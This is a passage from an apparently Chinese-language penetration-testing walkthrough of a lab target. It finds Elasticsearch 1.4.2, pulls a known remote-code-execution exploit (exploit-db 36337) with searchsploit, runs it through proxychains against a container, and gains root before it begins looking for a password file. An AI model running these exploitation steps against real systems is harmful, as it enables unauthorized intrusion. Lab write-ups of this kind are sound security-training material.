 ![image-20210918112034101](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20210918112034101.png)

发现是9200端口上是Elasticsearch服务，且版本是1.4.2

### 4.Elasticsearch漏洞利用

Elasticsearch在历史版本上曾出现过几次验证漏洞，有**RCE远程代码执行漏洞**。

所以我们尝试在kali上搜索有没有Elasticsearch相关**exp**

```
searchsploit Elasticsearch
```

![image-20210918112136386](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20210918112136386.png)

发现两个RCE远程代码执行漏洞，我们先尝试第一个。

将脚本**拷贝**至当前目录

```
cp /usr/share/exploitdb/exploits/linux/remote/36337.py .
```

![image-20210918112328098](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20210918112328098.png)

查看脚本代码

```
vi 36337.py
```

![image-20210918112617712](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20210918112617712.png)

简单查看该脚本后发现该脚本使用**python2**编写的。（认真看也看不懂-.-）

执行脚本

```
proxychains python2 36337.py 172.17.0.2
```

注意：这里可能会出现执行失败的可能，只需要插入一条数据后，即可成功执行，若失败可参考链接http://www.hackdig.com/05/hack-88907.htm

![image-20210918113310676](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20210918113310676.png)

```
id
```

成功**获取**到该容器系统的**root权限**

### 5.获取root权限后的发现

#### 5.1发现密码文件

```
ls
```
